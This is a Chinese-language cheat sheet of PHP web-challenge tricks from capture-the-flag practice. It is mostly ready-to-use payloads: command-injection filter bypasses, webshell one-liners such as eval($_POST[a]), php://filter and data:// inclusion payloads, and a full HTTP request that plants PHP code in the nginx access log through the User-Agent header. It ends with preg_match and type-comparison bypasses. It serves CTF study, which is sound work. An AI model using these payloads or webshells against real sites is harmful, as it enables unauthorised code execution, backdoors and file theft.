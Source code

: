 # 笔记

<br><br>

## 杂笔记

<br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");


<br><br>

## 命令绕过  

<br>

### 黑洞绕过：system($c." >/dev/null 2>&1");
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）

* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)

* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt

* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）

* ?c=cp${IFS}/fla?${IFS}/var/www/html/b.txt（将根目录（ls /）下的flag复制到可以直接在url的目录）





### 直接写php时：
* 经典一句话木马：<?php @eval($_POST[a]); ?>
* 短标签（过滤php）绕过：<?=eval($_POST[a]);?>（需要配合user.ini打开权限）
* 过滤[]:<?=eval($_POST{a});?>(改成花括号)
* 过滤分号’；‘：<?=`cat ../flag*`?> <?=`tac ../f*`?> <?=`nl ../flag*`?>查看源码得flag




<br>

### 直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

### 当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>

<br>

#### php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

#### $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>

#### 日志文件包含：（抓包改UA，在UA末尾加东西）
* 如：
````
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>       \\在这里改噢
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
````



<br>

* 可以直接命令执行即可也可以用webshell后门工具连接

* ?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

* ?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();


<br>

### 条件竞争漏洞：（相关：2023年梦极光线上赛web）（文件上传，文件包含等都能用）
- [条件竞争](https://www.freebuf.com/articles/web/275557.html)


<br><br>



## php特性绕过


<br>

### preg_match绕过:
* preg_match第二个参数为0时，会将0x开头当作十六进制,0开头当作八进制
* 多行绕过 php%0aPHP(用于多次preg_match)
* strpos($num, "0")意为开头不能为0，只需要加入%0a（换行）或%09（空格）即可绕过

<br>

### 强弱比较绕过:

* 数组绕过：a[]=1&b[]=2
* md5撞库: 两个不用的明文各自经过MD5加密后，得到相等的hash值(多用于===)
* is_numeric()绕过:is_numeric()函数判断为数字时返回true，否则为false。如果数字为1234%00它就会判断为非数字，而在比较时这通常视为1234





<br>

### 其他总结
* 伪协议绕过:?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)











